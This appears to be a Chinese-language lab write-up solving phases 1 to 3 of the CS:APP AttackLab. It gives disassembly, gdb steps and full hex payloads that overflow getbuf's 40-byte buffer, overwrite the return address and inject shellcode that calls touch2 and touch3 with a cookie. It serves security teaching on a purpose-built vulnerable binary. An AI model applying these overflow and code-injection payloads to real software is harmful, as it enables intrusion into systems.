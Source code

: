 # AttackLab
## phase_1 touch1
> 题目：Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement, rather than returning to test.
```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
- 通过查看getbuf代码得到，分配到的栈帧为40字节，因此输入的字符长度超过40字节后，产生栈溢出攻击，函数返回后的跳转地址在该栈帧起始位置的高40位中
- 因此，我们需要产生一个40字节无效字符串+**4字节目标跳转地址**，来将原来的函数返回地址**覆盖**
	- 查看`touch1`：![](https://raw.githubusercontent.com/alwaysmissin/picgo/main/20230107210652.png)
	```assembly
	00000000004017c0 <touch1>:
	  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
	  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
	  4017cb:	00 00 00 
	  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
	  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
	  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
	  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
	  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
	  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
	```
	- 函数`touch1`的起始位置位于内存`0x4017c0`，因此使用该地址将原函数返回地址覆盖，使`getbuf`函数返回时跳转至函数`touch1`执行
- 答案：
```
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
c0 17 40 00 00 00 00 00
```
> 由于机器使用**小端法**，在输入返回地址时，需要在输入每一个字节时，反过来输入

## phase_2 touch2
> 题目：our task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument.

- `touch2`：![](https://raw.githubusercontent.com/alwaysmissin/picgo/main/20230107210804.png)
	- 可以看到，我们需要将cookie作为参数传入到touch2中，才可以实现攻击
	- 同上一题，先查看`touch2`函数在内存中的位置：`00000000004017ec `
- 如何传入参数？
	- 默认情况下，函数的参数依次放在寄存器`%rdi,%rsi,%rdx...`中，那么接下来思考的问题是：如何通过传入一个字符串来将参数放置在`%rdi`上，并且下一步执行`touch2`。
	- 通过输入字符串，我们可以在原来的栈帧上插入一段代码（使用机器码表示的代码），这个代码执行的功能是：
		 - 将目标参数(`cookie`)放置在寄存器`%rdi`上(`movq <cookie>, %rdi`)
		 - 跳转至`touch2`(`pushq <target_address>, retq`)
	- 如何跳转至植入的代码？
		- 获得我们输入字符串（植入代码）的栈帧的地址（即`getbuf`函数栈帧的首地址）
	- 然后就可以通过植入代码中的`retq`来跳转到刚刚入栈的地址(`touch2`)
> `getbuf`的栈帧首地址需要通过gdb调试获得
> 在`getbuf`函数处打一个断点，`run -q`，`info registers`来查找寄存器`%rsp`上的值（即当前栈帧的首地址，为`0x5561dc78`）

- 答案：
```
48 c7 c7 fa 97 b9 59      //movq
68 ec 17 40 00            //pushq
c3                        //retq
11                        //补齐40字节无效字符
11 11 11
11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
78 dc 61 55 00 00 00 00   //植入代码的地址
```

## phase_3 touch3
> 题目：Your task is to get CTARGET to execute the code for touch3 rather than returning to test. You must make it appear to touch3 as if you have passed a string representation of your cookie as its argument.

- 思路与上一题相似，但是要注意的是，我们这次传入的参数为一个**字符串**，因此我们需要将目标字符串的首地址放在第一个参数`%rdi`上，以此达到传入一个字符串参数的目的（字符串的本质是字符数组）
- 问题在于，我们需要将字符串放在那个位置
	- 由本题的建议：When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie
	- 可以知道，当调用函数`hexmatch`和`strncmp`时，原函数`getbuf`的栈帧会被覆盖，所以当我们成功跳转至`touch3`并调用`hexmatch`进行比较时，如果我们将cookie字符串放在`getbuf`栈帧上，该字符串将会被覆盖，导致无法获得该字符串，导致失败
	- 那么问题变为，找到一个不会被覆盖的位置（在进入getbuf函数前的栈顶，也即返回地址的前一个8字节，即`0x5561dca8`，并且这个地址可以方便的进行覆盖），并将字符串放在该地址上。
- 答案：
```
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
11
11 11 11
11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

